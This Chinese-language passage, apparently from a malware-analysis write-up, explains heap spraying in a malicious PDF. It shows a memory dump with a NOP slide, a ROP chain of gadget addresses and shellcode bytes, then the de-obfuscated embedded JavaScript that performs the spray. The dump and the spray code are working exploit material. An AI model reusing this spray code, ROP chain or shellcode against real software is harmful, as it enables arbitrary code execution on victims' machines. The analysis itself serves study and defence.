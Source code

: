 Heap spray 是在 shellcode 的前面加上大量的 slide code（滑板指令），组成一个注入代码段。然后向系统申请大量内存，并且反复用注入代码段来填充。这样就使得进程的地址空间被大量的注入代码所占据。然后结合其他的漏洞攻击技术控制程序流，使得程序执行到堆上，最终将导致 shellcode 的执行。

我们来实际看一下（加粗的地方是后面会用到的 gadgets 地址）：

<pre>
0C0C0BE0  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................    <-- NOP slide
0C0C0BF0  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................
0C0C0C00  0C 0C 0C 0C 0C 0C 0C 0C 41 41 41 41 <b>A5 63 80 4A</b>  ........AAAA€J
0C0C0C10  00 00 8A 4A <b>96 21 80 4A</b> <b>90 1F 80 4A</b> <b>3C 90 84 4A</b>  ..奐?€J?€J<悇J      <-- ROP
0C0C0C20  <b>92 B6 80 4A</b> 64 10 80 4A C8 22 85 4A 00 00 00 10  挾€Jd€J?匤...
0C0C0C30  00 00 00 00 00 00 00 00 02 00 00 00 02 01 00 00  .............
0C0C0C40  00 00 00 00 <b>A5 63 80 4A</b> <b>64 10 80 4A</b> <b>B2 2D 84 4A</b>  ....€Jd€J?凧
0C0C0C50  <b>B1 2A 80 4A</b> 08 00 00 00 <b>A6 A8 80 4A</b> <b>90 1F 80 4A</b>  ?€J...Θ€J?€J
0C0C0C60  38 90 84 4A <b>92 B6 80 4A</b> <b>64 10 80 4A</b> FF FF FF FF  8悇J挾€Jd€J
0C0C0C70  00 00 00 00 40 00 00 00 00 00 00 00 00 00 01 00  ....@..........
0C0C0C80  00 00 00 00 A5 63 80 4A 64 10 80 4A <b>B2 2D 84 4A</b>  ....€Jd€J?凧
0C0C0C90  <b>B1 2A 80 4A</b> 08 00 00 00 <b>A6 A8 80 4A</b> <b>90 1F 80 4A</b>  ?€J...Θ€J?€J
0C0C0CA0  30 90 84 4A <b>92 B6 80 4A</b> <b>64 10 80 4A</b> FF FF FF FF  0悇J挾€Jd€J
0C0C0CB0  22 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00  "..............
0C0C0CC0  A5 63 80 4A 04 00 8A 4A <b>96 21 80 4A</b> <b>A5 63 80 4A</b>  €J.奐?€J€J
0C0C0CD0  64 10 80 4A <b>B2 2D 84 4A</b> <b>B1 2A 80 4A</b> 30 00 00 00  d€J?凧?€J0...
0C0C0CE0  <b>A6 A8 80 4A</b> <b>90 1F 80 4A</b> 04 00 8A 4A <b>D8 A7 80 4A</b>  Θ€J?€J.奐丕€J
0C0C0CF0  <b>A5 63 80 4A</b> 64 10 80 4A <b>B2 2D 84 4A</b> <b>B1 2A 80 4A</b>  €Jd€J?凧?€J
0C0C0D00  20 00 00 00 <b>A6 A8 80 4A</b> <b>A5 63 80 4A</b> 64 10 80 4A   ...Θ€J€Jd€J
0C0C0D10  <b>DC AE 80 4A</b> <b>90 1F 80 4A</b> 34 00 00 00 <b>85 D5 80 4A</b>  墚€J?€J4...呎€J
0C0C0D20  <b>A5 63 80 4A</b> 64 10 80 4A <b>B2 2D 84 4A</b> <b>B1 2A 80 4A</b>  €Jd€J?凧?€J
0C0C0D30  0A 00 00 00 <b>A6 A8 80 4A</b> <b>90 1F 80 4A</b> 70 91 84 4A  ....Θ€J?€Jp憚J
0C0C0D40  <b>92 B6 80 4A</b> FF FF FF FF FF FF FF FF FF FF FF FF  挾€J
0C0C0D50  00 10 00 00 DB C1 D9 74 24 F4 BB 81 F4 49 9E 5A  ...哿賢$艋侓I瀂    <-- shellcode
0C0C0D60  29 C9 B1 31 31 5A 18 03 5A 18 83 C2 85 16 BC 62  )杀11ZZ兟?糱
0C0C0D70  6D 54 3F 9B 6D 39 C9 7E 5C 79 AD 0B CE 49 A5 5E  mT?沵9蓗\y?蜪
0C0C0D80  E2 22 EB 4A 71 46 24 7C 32 ED 12 B3 C3 5E 66 D2  ?隞qF$|2?趁^f
0C0C0D90  47 9D BB 34 76 6E CE 35 BF 93 23 67 68 DF 96 98  G澔4vn?繐#gh邧
0C0C0DA0  1D 95 2A 12 6D 3B 2B C7 25 3A 1A 56 3E 65 BC 58  ?m;+?:V>e糥
0C0C0DB0  93 1D F5 42 F0 18 4F F8 C2 D7 4E 28 1B 17 FC 15  ?魾?O譔(?
0C0C0DC0  94 EA FC 52 12 15 8B AA 61 A8 8C 68 18 76 18 6B  旉黂嫪a▽hvk
0C0C0DD0  BA FD BA 57 3B D1 5D 13 37 9E 2A 7B 5B 21 FE F7  糊篧;裖7?{[!
0C0C0DE0  67 AA 01 D8 EE E8 25 FC AB AB 44 A5 11 1D 78 B5  g?仡?獶?x
0C0C0DF0  FA C2 DC BD 16 16 6D 9C 7C E9 E3 9A 32 E9 FB A4  芙m渱殂?辂
0C0C0E00  62 82 CA 2F ED D5 D2 E5 4A 29 99 A4 FA A2 44 3D  b偸/碚义J)櫎D=
0C0C0E10  BF AE 76 EB 83 D6 F4 1E 7B 2D E4 6A 7E 69 A2 87  慨v雰拄{-鋔~i
0C0C0E20  F2 E2 47 A8 A1 03 42 CB 24 90 0E 22 C3 10 B4 3A  蜮GāB??"??
0C0C0E30  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................    <-- NOP slide
0C0C0E40  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................
</pre>

通过 PDFStreamDumper 可以看到内嵌的 JavaScript，将变量还原后代码如下：

```javascript
var shellcode = unescape( '%u4141%u4141%u63a5%u4a80%u0000 ...省略大量字符... a1%ucb42%u9024%u220e%u10c3%u3ab4' );
var rop = unescape( "%u0c0c%u0c0c" );
while (rop.length + 20 + 8 < 65536) rop+=rop;
SP = rop.substring(0, (0x0c0c-0x24)/2);
SP += shellcode;
SP += rop;
slackspace = SP.substring(0, 65536/2);
while(slackspace.length < 0x80000) slackspace += slackspace;
bigblock = slackspace.substring(0, 0x80000 - (0x1020-0x08) / 2);
var memory = new Array();
for (count=0;count<0x1f0;count++) memory[count]=bigblock+"s";
```
